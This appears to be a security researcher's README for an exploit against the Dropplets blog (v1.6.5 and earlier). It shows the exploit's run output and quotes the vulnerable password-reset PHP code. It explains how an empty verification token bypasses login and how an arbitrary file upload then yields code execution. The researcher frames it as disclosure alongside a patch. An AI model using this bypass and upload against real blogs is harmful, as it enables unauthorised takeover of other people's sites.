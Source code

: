 # Dropplets blog <= v1.6.5 Auth-Bypass & RCE

Recently I was searching for an easy to use markdown based blog so I can post pictures of my many cats and publish whimsical esoteric poetry, and I came across Dropplets! Over 1500 stars on GitHub, allows me to write posts in Markdown, doesn't require a database... neat!

## Usage

```
$ python2 droppleganger.py http://127.0.0.1:8090/dropplets/

______                       _      _____
|  _  \                     | |    |  __ \
| | | |_ __ ___  _ __  _ __ | | ___| |  \/ __ _ _ __   __ _  ___ _ __
| | | | '__/ _ \| '_ \| '_ \| |/ _ \ | __ / _` | '_ \ / _` |/ _ \ '__|
| |/ /| | | (_) | |_) | |_) | |  __/ |_\ \ (_| | | | | (_| |  __/ |
|___/ |_|  \___/| .__/| .__/|_|\___|\____/\__,_|_| |_|\__, |\___|_|
                | |   | |                              __/ |
                |_|   |_|                             |___/

* Oh noes, it's raining... Dropplets blog < v1.6.5 Auth-Bypass + RCE *

[-] Logging In
[-] Uploading PHP code
[+] Exploit URL: http://127.0.0.1:8090/dropplets//authors/67TDY.php
[$] Search string found, code is executable :D
[$] SUCCESS: http://127.0.0.1:8090/dropplets/

$
```

## Technical Details

So, being a nosey security researcher, I needed to look at the code before I used it, and surprisingly there was a simple logic bug that left a hole wider than Kirk Johnson's...

```php
	// Fogot password.
    case 'forgot':

        // The verification file.
        $verification_file = "./verify.php";

        // If verified, allow a password reset.
        if (!isset($_GET["verify"])) {

            $code = sha1(md5(rand()));

            $verify_file_contents[] = "<?php";
            $verify_file_contents[] = "\$verification_code = \"" . $code . "\";";
            file_put_contents($verification_file, implode("\n", $verify_file_contents));

            $recovery_url = sprintf("%s/index.php?action=forgot&verify=%s,", $blog_url, $code);
            $message      = sprintf("To reset your password go to: %s", $recovery_url);

            $headers[] = "From: " . $blog_email;
            $headers[] = "Reply-To: " . $blog_email;
            $headers[] = "X-Mailer: PHP/" . phpversion();

            mail($blog_email, $blog_title . " - Recover your Dropplets Password", $message, implode("\r\n", $headers));
            $login_error = "Details on how to recover your password have been sent to your email.";

        // If not verified, display a verification error.
        } else {

            include($verification_file);

            if ($_GET["verify"] == $verification_code) {
                $_SESSION["user"] = true;
                unlink($verification_file);
            } else {
                $login_error = "That's not the correct recovery code!";
            }
        }
        break;
```

Notice the subtle bug, `!isset($_GET["verify"])` .. `else` ... `if ($_GET["verify"] == $verification_code)` ... `$_SESSION["user"] = true;`

Cool, I can login with a single request and an empty verification token as long as the `$verification_file` doesn't exist, which it usually doesn't.

What about file upload? ... `includes/uploader.php` ... yay, arbitrary file upload.

## Executive Summary

Drink beer, write exploit, write patch, make pull request, chuckle.

YAY I HELPED MAKE TEH INTERNETS BETTER & MORE SECURE FOR EVERYBODAY!!!

